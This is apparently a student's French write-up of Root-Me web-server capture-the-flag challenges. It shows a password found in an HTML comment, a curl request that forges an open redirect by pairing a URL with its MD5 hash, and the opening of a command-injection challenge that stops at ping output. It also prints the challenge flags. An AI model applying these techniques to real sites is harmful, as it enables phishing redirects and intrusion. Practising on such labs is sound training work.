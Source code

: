 # Challenge Web - Serveur

## 1. HTML

En observant le code HTML de la page, on retrouve le mot de passe commenté dans le body :

```html
<!--
Je crois que c'est vraiment trop simple là !
It's really too easy !
password : nZ^&@q5&sjJHev0
-->
```

Le mot de passe est donc **nZ^&@q5&sjJHev0**.

## 2. HTTP - Open Redirect

En regardant l'URL des liens de redirection, on observe qu'ils prennent en paramètre une URL `url` et un HASH `h`, semblablement du `MD5`.

```html
<a href="?url=https://facebook.com&amp;h=a023cfbf5f1c39bdf8407f28b60cd134">facebook</a>
```

On remarque ensuite que le hash passé est égal à l'url hashée. En réalisant une requête cURL en passant par une autre url, on arrive à se rediriger. Ainsi, en réalisant une requête cURL sans redirection avec le flag -L, on trouve le résultat suivant:

```shell
nicolas@DESKTOP-JOGTTVS:/mnt/c/Users/Nicolas Law Yim Wan/Projects/ETNA/ROOTME/root_me_svn$ curl 'http://challenge01.root-me.org/web-serveur/ch52/?url=https://www.google.com/&h=d75277cdffef995a46ae59bdaef1db86'
<!DOCTYPE html>
<html>
<head>
        <title>HTTP - Open redirect</title>
</head>


<body><link rel='stylesheet' property='stylesheet' id='s' type='text/css' href='/template/s.css' media='all' /><iframe id='iframe' src='https://www.root-me.org/?page=externe_header'></iframe>
        <p>Well done, the flag is e6f8a530811d5a479812d7b82fc1a5c5</p><script>document.location = 'https://www.google.com/';</script>
```

Le flag est donc **e6f8a530811d5a479812d7b82fc1a5c5**.

## 3. Injection de commande

Ici, on remarque rapidement que l'ouput du ping ressemble à la commande UNIX `ping` :

```shell
PING google.com (216.58.213.174) 56(84) bytes of data.
64 bytes from par21s04-in-f14.1e100.net (216.58.213.174): icmp_seq=1 ttl=57 time=1.08 ms
64 bytes from par21s04-in-f14.1e100.net (216.58.213.174): icmp_seq=2 ttl=57 time=1.08 ms
64 bytes from par21s04-in-f14.1e100.net (216.58.213.174): icmp_seq=3 ttl=57 time=1.03 ms

--- google.com ping statistics ---
3 packets transmitted, 3 received, 0% packet loss, time 2006ms
rtt min/avg/max/mdev = 1.033/1.069/1.088/0.025 ms
```

